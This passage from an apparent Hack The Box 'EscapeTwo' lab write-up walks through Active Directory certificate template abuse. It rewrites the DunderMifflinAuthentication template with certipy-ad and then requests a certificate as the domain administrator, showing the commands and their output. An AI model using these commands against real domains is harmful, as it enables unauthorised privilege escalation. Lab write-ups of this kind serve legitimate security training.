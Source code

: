 #### Step 4: Finding vulnerable templates


![caption](assets/htb-escapetwo-22.png)

The name is fishy, Allow Enroll for domain admins, enterprise admins and Cert publishers AKA us with the user `ryan`. So this is our target template. `DunderMifflinAuthentication`

#### Step 5: Updating the Template

```bash
KRB5CCNAME=$PWD/ca_svc.ccache certipy-ad template -k -template DunderMifflinAuthentication -dc-ip 10.10.11.51 -target dc01.sequel.htb
	<SNIP>
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
```

#### Step 6: Getting verified

```bash
certipy-ad req -u ca_svc -hashes 'hash' -ca sequel-DC01-CA -target sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51 -debug
	<SNIP>
[*] Saved certificate and private key to 'administrator_10.pfx'
```

![caption](assets/htb-escapetwo-23.png)
